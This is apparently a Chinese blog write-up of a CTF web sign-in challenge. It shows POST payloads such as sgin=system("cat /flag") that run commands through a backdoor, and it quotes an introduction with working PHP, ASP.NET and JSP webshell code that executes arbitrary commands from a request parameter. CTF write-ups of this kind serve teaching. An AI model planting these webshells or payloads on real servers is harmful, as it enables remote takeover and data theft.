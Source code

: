 ```yaml
---
title: 吾杯网络安全技能大赛[Web方向]-Sign签到题
date: 2024-21-2
tags:
 - CTF
 - WriteUP
categories:
 - 随笔 Essay 
isShowComments: true
publish: true







---
```


<Boxx/>

参加了第一届吾杯网络安全技能大赛，这是一道Web方向的签到题，这是我的第24题

[[toc]]

- 网址【[传送门](https://www.wucup.net/)】

| 题目编号 | 题目名称 | 题目方向 | 难度 |
| -------- | -------- | -------- | ---- |
| 无       | Sign     | Web      | 1    |

<!-- more -->

# 题目24：Sign

### 题目描述：POST浅浅签个到吧

### 考点：WebShell的应用

### 预期解：通过WebShell的方式去执行命令

首先进入靶机，页面提示passwd:sgin

原本一开始想的是通过HackBar给目标传一个passwd的参数，参数的值是sgin，结果发现不可以，还是返回了passwd:sgin。尝试了多种方式，比如把sgin改成了sign等，种种方法都不行。

比赛结束后，参考了跑[**CHTXRT**](https://blog.csdn.net/CHTXRT/article/details/144175464)师傅的WriteUp，才发现是直接用WebShell的方式发一个POST请求，参数名是sgin，参数值直接就是system(ls /)等命令，这位师傅的WriteUp对我的启发很大，之前虽然学了WebShell的用法，但没有想到这道题是用WebShell来完成的。

```shell
sgin=system("ls /");
```

![image-20241202194034912](/img/essay/image-20241202194034912.png)

同理，我们看到目录下有个flag文件，直接cat该文件即可

```shell
sgin=system("cat /flag");
```

看了老师傅的WP，感受颇多，最近虽然刷了一些入门题单，但感觉都没形成条件反射，缺少很多基础知识，对于提示不敏感，以及对入门题单讲过的知识点和方法不熟悉，所以导致这道Web签到题都没有做出来

># WebShell 简介
>
>## 一、定义
>
>WebShell 是一种特殊的脚本文件，它允许攻击者通过网页浏览器与目标服务器进行交互，进而在服务器端执行各种命令，实现对服务器的一定程度的控制。
>
>## 二、常见类型及操作示例
>
>### PHP WebShell
>
>在基于 PHP 的网站环境中较为常见。以下是一个简单的 PHP WebShell 示例代码：
>
>```php
><?php
>if(isset($_GET['cmd'])){
>    $cmd = $_GET['cmd'];
>    system($cmd);
>    echo $cmd.'的执行结果：<br>';
>    echo '<pre>'.shell_exec($cmd).'</pre>';
>}
>?>
>```
>
>在这个示例中：
>
>- 首先通过 `isset($_GET['cmd'])` 检查是否通过 GET 请求传递了名为 `cmd` 的参数。
>- 如果存在该参数，就将其值赋给变量 `$cmd`。
>- 然后使用 `system($cmd)` 或 `shell_exec($cmd)` 函数来执行这个命令。`system` 函数会直接执行命令并输出结果到浏览器（但可能不会完整返回所有输出内容），而 `shell_exec` 函数执行命令后会返回完整的输出结果，这里通过 `<pre>` 标签对输出进行格式化展示，以便更清晰地查看。
>
>攻击者可以通过构造类似 `http://target.com/shell.php?cmd=ls -l` 的 URL 来执行服务器上的 `ls -l` 命令，查看指定目录下文件的详细信息等操作。
>
>### ASP/[ASP.NET](https://asp.net/) WebShell
>
>适用于基于微软的 IIS 服务器和 ASP/[ASP.NET](https://asp.net/)技术的网站。示例代码如下（简化示例）：
>
>```asp
><%@ Page Language="C#" %>
><%@ Import Namespace="System.Diagnostics" %>
><%
>if(Request.QueryString["cmd"]!= null)
>{
>    string cmd = Request.QueryString["cmd"];
>    ProcessStartInfo psi = new ProcessStartInfo(cmd);
>    psi.UseShellExecute = false;
>    psi.RedirectStandardOutput = true;
>    Process p = Process.Start(psi);
>    Response.Write(p.StandardOutput.ReadToEnd());
>}
>%>
>```
>
>在这个[ASP.NET](https://asp.net/)的示例中：
>
>- 首先判断是否通过 QueryString（类似 GET 请求方式）接收到名为 `cmd` 的参数。
>- 若接收到，将其赋值给变量 `cmd`。
>- 然后创建一个 `ProcessStartInfo` 对象来设置要执行的命令相关信息，通过 `Process.Start` 启动该命令的执行，并将执行结果通过 `Response.Write` 输出到浏览器，供攻击者查看。
>
>攻击者可通过构造如 `http://targetserver.com/shell.asp?cmd=dir` 的 URL 来执行服务器上的 `dir` 命令，获取当前目录下的文件列表信息。
>
>### JSP WebShell
>
>在 Java Web 应用环境下使用。示例代码如下：
>
>```jsp
><%@ page import="java.io.BufferedReader,java.io.InputStreamReader,java.io.IOException,java.lang.ProcessBuilder" %>
><%
>if(request.getParameter("cmd")!= null)
>{
>    String cmd = request.getParameter("cmd");
>    ProcessBuilder pb = new ProcessBuilder(cmd.split(" "));
>    pb.redirectErrorStream(true);
>    Process p = pb.start();
>    BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
>    String line;
>    while ((line = br.readLine())!= null)
>    {
>        out.println(line);
>    }
>    br.close();
>}
>%>
>```
>
>在这个 JSP WebShell 示例中：
>
>- 同样先检查是否通过 `request.getParameter("cmd")` 接收到名为 `cmd` 的参数。
>- 若有，将其赋值给变量 `cmd`。
>- 接着使用 `ProcessBuilder` 来构建要执行的命令，并启动执行过程。通过 `BufferedReader` 读取命令执行的输出结果，并逐行输出到浏览器页面上，供攻击者查看执行情况。
>
>攻击者可通过构造如 `http://targetserver.com/shell.jsp?cmd=ls -al` 的 URL 来执行服务器上的 `ls -al` 命令，查看目录下文件的详细信息。
>
>## 三、使用场景及目的
>
>WebShell 通常被攻击者用于在成功入侵目标服务器后，进一步深入控制服务器。例如，通过执行文件操作命令来查看、修改或删除服务器上的文件；执行系统命令获取服务器的系统信息、网络配置等；或者利用服务器的资源进行其他恶意活动，如发动 DDoS 攻击等。在 CTF 比赛中，了解 WebShell 有助于理解某些涉及服务器攻击与防御相关的题目，帮助选手更好地分析题目思路和找到解题方法。

